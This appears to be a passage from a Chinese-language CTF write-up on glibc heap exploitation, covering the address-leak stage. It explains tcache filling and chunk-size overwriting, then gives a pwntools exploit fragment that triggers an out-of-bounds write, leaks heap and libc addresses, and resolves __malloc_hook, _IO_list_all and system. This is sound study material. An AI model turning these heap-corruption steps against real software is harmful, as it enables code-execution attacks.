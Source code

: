 ### 2.1 leak address

首先通过不断申请释放填满 tcache，然后通过 magic 函数改写下一个 chunk 的 size 字段扩大该 chunk 的大小。这样可以将该 chunk 扩大为大于 0x400，然后释放后就将以在堆中存在 libc 地址。这里为了方便后续利用，我们还需要泄露出来要给 heap 地址，具体方法就是先将一个固定大小的 tcache 填满，然后再释放了一个改大小的 chunk，这样 unsortedbin 中就有两个 chunk，就可以一次读到 heap 和 libc。

```python
  for i in range(7):
    add(0x80,'a'*0x80,0)
    delete(0)

  for i in range(6):
    add(0xa0,'a'*0xa0,0)
    delete(0)

  for i in range(7):
    add(0x370,'a'*0x370,0)
    delete(0)

  for i in range(7):
    add(0x1f0,'a'*0x1f0,0)
    delete(0)

  add(0x1f0,'a'*0x1f0,0)
  add(0x90,'a'*0x90,1)
  delete(1)
  add(0x80,'a'*0x80,1)
  delete(0)
  add(0x400,'b'*0x400,0)
  delete(1)

  add(0x140,'a'*0x140,1)
  delete(1)
  #add(0x100,'a'*0x100,0)
  #delete(0)

  payload = (p64(0) + p64(0x21))*0x40
  add(0x400,payload,1)
  oob_once(0xf1)
  delete(0)
  add(0x300,'c'*0x300,0)
  delete(0)
  payload = 'c'*0xf0 + p64(0) + p64(0x381)
  payload = payload.ljust(0x120,'\x00')
  add(0x120,payload,0)
  delete(1)
  show(0)
  ru('\xe7\x90\xb4\x3a\x20')
  rv(0x100)
  heap_addr = u64(rv(8))
  top_addr = u64(rv(8))
  libc.address = top_addr - 1985696
  lg('heap_addr',heap_addr)
  lg('top_addr',top_addr)
  lg('libc',libc.address)
  malloc_hook = libc.symbols['__malloc_hook']
  lg('malloc_hook',malloc_hook)
  dl_open_hook = libc.symbols['_dl_open_hook']
  lg('dl_open_hook',dl_open_hook)
  global_max_fast = libc.address + 0x1e7600
  lg('global_max_fast',global_max_fast)
  IO_list_all = libc.symbols['_IO_list_all']
  lg('IO_list_all',IO_list_all)
  system = libc.symbols['system']
```